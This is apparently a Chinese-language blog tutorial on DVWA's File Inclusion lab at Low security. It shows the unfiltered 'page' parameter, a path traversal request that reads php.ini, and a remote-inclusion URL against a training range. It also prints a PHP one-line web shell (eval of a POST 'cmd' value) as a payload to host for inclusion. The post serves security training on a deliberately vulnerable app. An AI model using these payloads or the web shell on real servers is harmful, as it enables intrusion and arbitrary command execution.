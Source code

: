 ```yaml
---
layout:     post
title:      dvwa之File Inclusion
subtitle:   dvwa的文件包含
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - dvwa
    - 文件包含
---
```


## 前言
File Inclusion，意思是文件包含（漏洞），是一种代码处理方式，当一个代码文件想要引用另外一个代码文件，就要用到包含。当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。
## Low
#### 源码
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```
> 服务器对page参数没有做任何过滤检查


![](http://image.3001.net/images/20161106/14784220488447.png)
> 服务器期望用户的操作是点击上面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容为php，则会正常执行并返回结果；如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

#### 漏洞利用

###### 0x01 分析
尝试修改参数为test.php看一下，发现什么都没有

![](https://img-blog.csdnimg.cn/20201130205317368.png)

说明这个参数可以利用，盲猜这三个php文件是在一个目录里边的，应该是这样
![](https://img-blog.csdnimg.cn/20181221141159427.png)

因此我们想要包含跟目录里边的php.ini文件，就要跳转到上两级目录
> 读取www\DVWA\php.ini
> include(“www\DVWA\php.ini”)
> include("www\DVWA\vulnerabilities\fi\../../php.ini")
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020113021052722.png)
发现allow_url_include和allow_url_fopen是开着的，因此进行远程文件执行

###### 0x02 远程文件执行
在自己的服务器上放置一个phpinfo.txt文件或者是一句话木马都可以，然后进行远程包含，只要后缀改为php就可以执行，但是如果是非php文件，只要文件里为php格式的代码就可以执行。我们要清楚远程的执行不是在攻击者的web服务器上执行，而是在受害者web服务器上执行命令，所以phpinfo.txt才是正经。
```php
//一句话木马
<?php @eval($_POST['cmd']); ?>
//phpinfo
<?
phpinfo();
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201130213630878.png)

> PS：下面这是在谜团靶场执行靶场的phpinfo()![gtgdh.png](https://s3.jpg.cm/2021/02/18/gtgdh.png)
```bash
http://340d990415234f43a620e1071184f98d.app.mituan.zone/vulnerabilities/fi/?page=http://340d990415234f43a620e1071184f98d.app.mituan.zone/phpinfo.php
```